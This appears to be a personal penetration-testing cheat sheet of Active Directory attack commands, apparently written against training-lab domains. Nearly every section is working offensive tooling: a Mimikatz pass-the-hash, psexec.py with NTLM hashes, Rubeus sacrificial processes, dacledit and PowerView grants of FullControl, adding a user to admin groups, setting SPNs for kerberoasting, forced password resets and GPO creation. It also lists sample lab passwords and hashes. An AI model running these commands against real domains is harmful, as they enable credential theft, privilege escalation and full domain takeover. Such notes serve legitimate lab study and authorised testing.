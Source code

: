 # Essentials

### <mark style="color:yellow;">PowerView Enumeration</mark>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check user
</strong>Get-NetUser -Identity svc_adm

<strong># Check my group membership of user:
</strong>Get-NetUser -Identity svc_adm | Select-Object MemberOf

# Check what groups I belong to
Get-DomainGroup -MemberIdentity sarah.lafferty

# Check members of a group using nxc
 nxc smb 172.16.116.3 -u svc_sql -p pass123 --groups "Exchange Windows Permissions"

# Check ACLs on group
$sid = ConvertTo-SID joe.evans
Get-DomainObjectAcl -Identity 'Security Operations' | ?{ $_.SecurityIdentifier -eq $sid}

# Get Rights of user
$sid = Convert-NameToSid mczen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

# Get rights over other user
$userSID = (Get-DomainUser -Identity pedro).objectsid
Get-DomainObjectAcl -Identity rita | ?{$_.SecurityIdentifier -eq $userSID}

# Get usernames in domain
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName

# Check rights over other users
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'ZENCORP\\mczen'}}
$guid= "00299570-246d-11d0-a768-00aa006e0529" 
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
</code></pre>

### <mark style="color:yellow;">Mimikatz</mark>

Use mimikatz to start new powershell session with a hash

```powershell
.\mimikatz.exe privilege::debug "sekurlsa::pth /user:jose /ntlm:fa61a89e878f8688afb10b515a4866c7 /domain:zencorp.local /run:powershell.exe" exit
```

### <mark style="color:yellow;">Sacrificial process</mark>

```bash
.\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# With password
.\Rubeus.exe createnetonly /program:powershell.exe /username:holly /password:'Password123!' /domain:zencorp.local /show

# With hash
Rubeus.exe createnetonly /program:powershell.exe /username:holly /ntlm:HASH_VALUE /domain:zencorp.local /show
```

### <mark style="color:yellow;">Delegations</mark>

```bash
findDelegation.py -target-domain zencorp.local -dc-ip 172.16.92.10 -dc-host dc02 zencorp.local/gabriel:Godisgood001
```

### <mark style="color:yellow;">WinRM</mark>

```bash
# Execute command on remote system
Invoke-Command -ComputerName srv02 -ScriptBlock { whoami }
winrs -r:srv02 "powershell -c whoami;hostname"

# Interactive shell
Enter-PSSession ws01.zencorp.local
```

### <mark style="color:yellow;">Shell</mark>

```bash
psexec.py 'inlanefreight.local/administrator@10.129.218.254' -hashes :09721250b7544a54058c270807c62488
```

### <mark style="color:yellow;">Enumeration Linux</mark>

```bash
# Find delegations
findDelegation.py -target-domain zencorp.local -dc-ip 172.19.99.10 inlanefreight.local/taino:Adrian01

# # Check rights over user
dacledit.py zencorp.local/taino:Adrian01 -target 'db2000$'

# Check rights over user
dacledit.py zencorp.local/taino:Adrian01 -principal taino -target 'db2000$'
```

### <mark style="color:yellow;">DACL Linux</mark>

```powershell
# Grant user rights FullControl
python3 dacledit.py -principal remote_svc$ -target 'IT Admins' -dc-ip 10.129.218.254 zencorp.local/remote_svc$ -hashes :02079074b002235d8792b0c5bfb93fb4 -action write -rights FullControl

# Add member
pth-net rpc group addmem "IT Admins" "remote_svc$" -U zencorp.local/remote_svc$%ffffffffffffffffffffffffffffffff:02079074b002235d8792b0c5bfb93fb4 -S "10.129.218.254"
```

### <mark style="color:yellow;">Enumeration Windows</mark>

```powershell
# Get Users in domain
Get-User -Filter * -Property Name | Select-Object -ExpandProperty Name

# Get Computers in domain
Get-ADComputer -Filter * -Property Name | Select-Object -ExpandProperty Name

# Check permission over user
dsacls.exe "cn=Sam,cn=users,dc=inlanefreight,dc=local" | Select-String "Pedro" -Context 0,3

# Fetch ACEs pedro has over sqladmin
$pedroSID = (Get-DomainUser -Identity pedro).ObjectSID
Get-DomainObjectAcl -Identity sqladmin | ? {$_.SecurityIdentifier -eq $pedroSID}

# Get SPN attribute
Get-DomainComputer SRVWEB07 | Select-Object -ExpandProperty serviceprincipalname

# Get user SPN
(Get-DomainUser -Identity Felipe).serviceprincipalname

# Check msDS-KeyCredentialLink for Shadow creds
Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'

# Query ScriptPath
Get-DomainObject benjamin -Properties scriptPath

# Get Constrained delegation orphans
Import-Module .\PowerView.ps1
Import-Module .\Get-ConstrainedDelegation.ps1
Get-ConstrainedDelegation -CheckOrphaned

# Convert from SID
ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112

# Get DomainOU
Get-DomainOU -Properties name,gplink

# Get name GPO
Get-GPO -Guid 8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756

# Create new GPO
New-GPO -Name "AngelGPO" -Verbose

# Create and link GPO
Import-Module .\PowerView.ps1
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration -CreateGPO
Get-GPOEnumeration -LinkGPOs
```

#### Checking group permissions by getting ACL list.

```bash
# Import AD module
Import-Module ActiveDirectory

# Check group memberships
Get-ADGroupMember -Identity "Cert Publishers"

# Get ACL list
(Get-ACL -Path "AD:\CN=Cert Publishers,CN=Users,DC=sequel,DC=htb").Access | Format-Table IdentityReference, ActiveDirectoryRights, AccessControlType

# Check permission over group
Get-ACL -Path "AD:\CN=Domain Admins,CN=Users,DC=sequel,DC=htb" | Select-Object -ExpandProperty Access
```

### <mark style="color:yellow;">DACL Windows</mark>

```powershell
# Grant user rights FullControl
Add-DomainObjectAcl -TargetIdentity TechSupport -PrincipalIdentity jose -Rights All

# Add member
Add-DomainGroupMember -Identity TechSupport -Members jose 

# Set SPN on target
$SecPassword = ConvertTo-SecureString 'Music001' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LAB\jeffry', $SecPassword)
Set-DomainObject -Credential $Cred -Identity martha -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Change password
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity elieser -AccountPassword $UserPassword -Verbos

# Sacrifical process
.\Rubeus.exe createnetonly /program:powershell.exe /username:elieser /password:'Password123!' /domain:zencorp.local /show

# Clear and Set SPN
Set-DomainObject -Identity SRVWEB07 -Clear 'serviceprincipalname' -Verbose
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='MSSQL/SRVWEB07'} -Verbose
```
